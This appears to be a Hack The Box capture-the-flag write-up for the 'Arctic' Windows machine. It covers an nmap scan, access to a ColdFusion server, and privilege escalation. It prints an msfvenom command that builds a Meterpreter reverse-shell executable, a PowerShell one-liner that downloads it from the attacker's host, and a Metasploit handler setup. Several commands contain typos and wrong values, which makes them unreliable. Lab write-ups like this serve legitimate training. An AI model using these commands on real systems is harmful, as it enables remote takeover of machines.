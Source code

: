    ``` nmap -sV -sC -A -O -oN /root/Desktop/HTB?arctic/nmap_scan.txt 10.10.10.11 ``` 
![](/assets/Arctic_htb/media/image17.png)

Now we are in the root Directory and by running the Dir command we can
see what are the files we have.

![](/assets/Arctic_htb/media/image18.png)

Initially, we are in the ColdFusion Directory and I moved to the Users
Directory and I fond Administrator and Tolis. We don\'t have permissions
for Administrator. So let\'s go into Tolis User and Access Desktop, Then
I got the User Flag.

![](/assets/Arctic_htb/media/image19.png)

7. Privilege Escalation\
Now I check my user info with Whoami command and I got.\
``` arctic\\tolis\ ```
At this point, I actually knew a bit concerned as to how we are
actually going to do the exploiting this, and of course, I need to get
more information about the server.

Let\'s Check what utilities it had installed, Every Windows operating
system comes with power shells. Some Powershell syntax can help to
download the file using net web client function. It\'s very easy to
transfer files.

Now, this point Generate the Meterpreter, We want to send our
meterpreter to this computer. So that we can get a Reversal Meterpreter
then we can do the post-exploitation.

Now I\'m going to Generate Reverse Shell again I\'m going to use
msfvenom to do that,\
``` msfvenom -P windors/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=444 -f exe \> /var/www/met.exe ```

Saving the exploit into our apache2 webserver. Now we need to use
Powershell in the Windows machine to Download that Met.exe file into the
windows machine.\
To Download with PowerShell:\
``` Powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.1427/met.exe','meterpreter.exe')" ```

Hit enter, And check the directory you will see the *meterpreter*.exe

![](/assets/Arctic_htb/media/image20.png)

What we can do is, Open exploit multi handler in the Metasploit\

```shell
msfconsole\
use /exploit/multi/handler\
set payload windows/meterpreter_reverse_tcp\
set LHOST 10.10.14.27\
set LPORT 444\
run
```
